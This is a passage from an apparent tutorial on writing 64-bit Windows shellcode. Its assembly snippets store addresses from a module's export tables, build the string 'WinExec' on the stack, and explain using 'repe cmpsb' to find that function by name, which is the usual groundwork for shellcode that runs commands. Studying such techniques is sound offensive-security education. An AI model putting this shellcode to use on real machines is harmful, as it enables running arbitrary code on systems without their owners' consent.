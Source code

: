 These are used to store some of the virtual addresses for possible future use. This may be redundant in the end but you can clean up this part should you want to optimize this shellcode in the near future.

Now, let's calculate and store Virtual Addresses of the different tables.

```asm
    mov qword ptr [rbp-90h], rcx        ; <------------- Virtual Address of Export Directory

    xor rdx, rdx
    mov edx, dword ptr [rcx + 1ch]   ; RVA of Function table
    add rdx, rax                     ; Virtual Address of Function Table
    mov qword ptr [rbp-70h], rdx     ; <------------ Virtual Address of function Table
    
    xor rbx, rbx
    mov edx, dword ptr [rcx + 20h]   ; RVA of Name Table
    add rdx, rax                                         ; Virtual Address of Name Table
    mov qword ptr [rbp-60h], rdx     ; <------------ Virtual Address of Name Table

```

At this stage, this is where we want to find the function name from the function name table by string comparison to get the ordinal value. A fast way to do this is to make use of the `repe cmpsb` instruction to so. 

Since this is a 64 bit shellcode and the length "WinExec" is smaller than 8 bytes, we can just store the bytes into a register and push it onto the stack. Of course, we will need to push the string terminator to the stack first as well. Note that the bytes of "WinExec" should be in little Endian format.

```asm
    push rcx ; String terminator
    mov rcx, 636578456e6957FFh  ; WinExec string with FF which we will shift to fill in space
    shr rcx, 8
    push rcx                    ; Push the string value onto the stack
    push rsp                    ; stack address to targeted function name "WinExec"

    xor rcx, rcx
    mov cl, 07h;; length of the string "WinExec"
        push rcx                ; push on to the stack so I can group the variables together for easier reference

    pop r8                      ; <----- Function name Length and the counter
    pop r9                      ; <----- String Address to WinExec string
    xor r12, r12                ; <----- used to store the ordinal N

```

Before proceeding, let us understand the `repe cmpsb` instruction better.

This instruction would make use of 
- rcx as a counter (decrement upon each comparison of bytes)
    - Thus have to store the length of "WinExec" - we already have this
- rdi as the destination string register
- rsi as the source string register
- zero flag
    - if not zero, then it is a mismatch (jne)
    - if mismatch we will want to create a loop
